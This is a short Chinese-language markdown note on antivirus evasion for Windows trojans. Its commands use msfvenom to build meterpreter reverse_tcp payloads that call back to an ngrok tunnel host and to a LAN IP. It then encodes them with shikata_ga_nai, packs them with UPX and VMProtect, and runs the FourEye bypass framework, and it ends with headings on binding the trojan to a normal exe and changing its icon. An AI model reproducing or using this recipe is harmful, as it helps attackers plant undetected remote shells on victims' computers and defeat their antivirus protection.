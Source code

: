 #### vmprotect免杀

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ngrok2.xiaomiqiu.cn LPORT=378 -e x86/shikata_ga_nai -i 12 -f exe -o .exe
```

![image-20210121013507919](../../img/image-20210121013507919.png)



![image-20210121013555146](../../img/image-20210121013555146.png)

```
软件往里面一拖
点这个按钮，出来的软件就免杀了
```

![image-20210121013626833](../../img/image-20210121013626833.png)

![image-20210121013457217](../../img/image-20210121013457217.png)

![image-20210121013719457](../../img/image-20210121013719457.png)

```
这两个软件免杀，国内使用完全就没问题了
```



#### exe合并



```
git clone https://github.com/lengjibo/FourEye.git#下载
cd FourEye
pip install -r requirements.txt
python3 BypassFramework.py#打开

2.显示可生成的软件，list
3、选择shellcode，显示可选择的免杀方式
4、选择fibers免杀方式，加密方式选择xor，输入shellcode，选择平台的位数，execute运行
#注意：如果报错请安装mingw环境

apt-get install gcc-mingw-w64-x86-64 g++-mingw-w64-x86-64 wine64
```

```
#木马生成
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.16.102 LPORT=378 -f exe -o usertest.exe
#加壳
使用
upx -5 usertest.exe


#use exploit/mutil/hander #用这个模块进行控制
```

绑定在正常exe

如何修改exe图标